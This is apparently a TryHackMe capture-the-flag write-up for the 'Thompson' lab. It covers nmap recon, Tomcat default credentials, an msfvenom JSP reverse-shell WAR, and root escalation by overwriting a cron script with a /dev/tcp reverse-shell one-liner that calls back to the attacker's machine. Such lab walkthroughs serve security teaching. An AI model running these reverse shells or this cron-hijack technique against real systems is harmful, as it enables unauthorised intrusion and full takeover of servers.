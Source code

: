 ```yaml
---
title: "TryHackMe - Thompson"
published: 2025-09-14
description: "TryHackMe Thompson writeup — Tomcat default credentials, CVE-2017-12617 WAR exploit, and privilege escalation via cronjob script overwrite."
image: "/assets/thompson/cover.png"
tags: [TryHackMe, Linux, Tomcat, CVE-2017-12617,  Msfvenom, Cronjob]
category: "TryHackMe"
draft: false
lang: "en"
---
```


Thompson (TryHackMe) — Logged into Tomcat using default credentials, uploaded/executed a WAR to get a shell, and escalated by modifying a file used by a cronjob.

# **Recon**

Scan the ports and services.

```jsx
└─$ nmap -sC -sV 10.201.22.81     
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-14 18:54 +06
Nmap scan report for 10.201.22.81
Host is up (0.33s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.36 seconds
```

From the Nmap scan, we identified three open ports: `22/tcp (SSH)`, `8009/tcp (Apache JServ)`, and `8080/tcp (HTTP)`. We then opened port 8080 in the browser and accessed the **Manager App**.

![image.png](assets/thompson/image.png)

When the **Manager App** is selected, a pop-up appears requesting the user to log in with the necessary credentials. in this URL [Manager App Login](http://10.201.22.81:8080/manager/html)

![image.png](assets/thompson/image%201.png)

When you cancel the authentication required pop-up, you will get the credentials within **401 unauthorized** page.

**username**: `tomcat`

**passsword**: `******`

![image.png](assets/thompson/image%202.png)

# Exploit

Before attempting to log in, I searched online and discovered a published exploit for this service: **CVE-2017-12617** (the “WAR backdoor”). There are numerous proof-of-concepts available. To leverage the exploit, you must have the Manager page login credentials.

![image.png](assets/thompson/image%203.png)

 let’s upload the reverse shell

```jsx
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<tunnel IP> LPORT=4444  -f war > shell.war
```

![image.png](assets/thompson/image%204.png)

use open up the netcat listener to connect.

```jsx
rlwrap nc -lvnp 4444
```

![image.png](assets/thompson/image%205.png)

Now, upload the reverse shell (revshell) and deploy it.

![image.png](assets/thompson/image%206.png)

 Click on the deployed file to open a shell session.

![image.png](assets/thompson/image%207.png)

# Privilege Escalation

the screenshot, we can observe two more files. Let’s take a closer look at `id.sh` and `test.txt`.

![image.png](assets/thompson/image%208.png)

Normally, the `id.sh` script runs as the root user. Interestingly, it also processes the `test.txt` file. Next, we will inspect the crontab.

![image.png](assets/thompson/image%209.png)

1. **Overwrite `id.sh` to get a root shell**

```jsx
echo "sh -i >& /dev/tcp/10.17.68.220/53 0>&1" > id.sh
```

- This **replaces** the original `id.sh` script with a reverse shell.
- `sh -i` → starts an interactive shell.
- `>& /dev/tcp/10.17.68.220/53` → connects the shell to your attacking machine IP and port.
- `0>&1` → redirects input and output so you can control the shell.

![image.png](assets/thompson/image%2010.png)

Start a listener on your machine

```jsx
nc -lvnp 53
```

- Waits for the target machine to connect back.
- Once the connection happens, you’ll have a **root shell**.

![image.png](assets/thompson/image%2011.png)

# Summary

- Logged into Tomcat with default credentials.
- Uploaded a reverse shell via the WAR backdoor exploit.
- Gained shell access as the Tomcat user.
- Escalated privileges to root by modifying a cron-executed script.
